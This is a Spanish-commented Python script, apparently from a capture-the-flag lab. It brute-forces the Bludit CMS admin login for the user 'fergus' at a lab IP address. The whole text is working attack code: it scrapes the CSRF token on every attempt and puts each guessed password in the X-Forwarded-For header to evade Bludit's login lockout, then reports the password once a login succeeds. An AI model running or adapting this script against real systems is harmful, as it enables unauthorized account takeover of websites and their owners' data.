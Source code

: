 ```python
#!/usr/bin/python3
#coding:utf-8

import sys,signal,time,requests,re
from pwn import *

def def_handler(sig,frame):
    print("\n[!] Saliendo...")
    sys.exit(1)

signal.signal(signal.SIGINT,def_handler)

main_url = "http://10.10.10.191/admin/login.php"
dictionary = "diccionario.txt"

def makeRequest():
    try:
        s = requests.session()
        
        p1 = log.progress("Fuerza bruta Bludit")
        p1.status("Generando los datos a enviar")
        time.sleep(1)

        with open(dictionary) as fp:
            for password in fp.read().splitlines():
                r = s.get(main_url)
                token = re.findall(r'tokenCSRF" value=(".*?")',r.text)[0].replace('"','')

                headers_data = {
                    'User-Agent' : 'Mozilla/5.0 (X11; Linux x86_64; rv:98.0) Gecko/20100101 Firefox/98.0',
                    'Referer' : 'http://10.10.10.191/admin/login.php',
                    'X-Forwarded-For' : password
                }

                post_data = {
                    'tokenCSRF' : token,
                    'username' : 'fergus',
                    'password' : password,
                    'save' : ''
                }

                r = s.post(main_url, headers=headers_data, data=post_data)
                p1.status("Probando credenciales: fergus - {}".format(password))

                if "Username or password incorrect" not in r.text:
                    p1.success("La contraseña del usuario fergus es: {}".format(password))
                    time.sleep(1)
                    sys.exit(0)

    except Exception as e:
        log(str(e))
        sys.exit(1)

if __name__=='__main__':
    makeRequest()
```
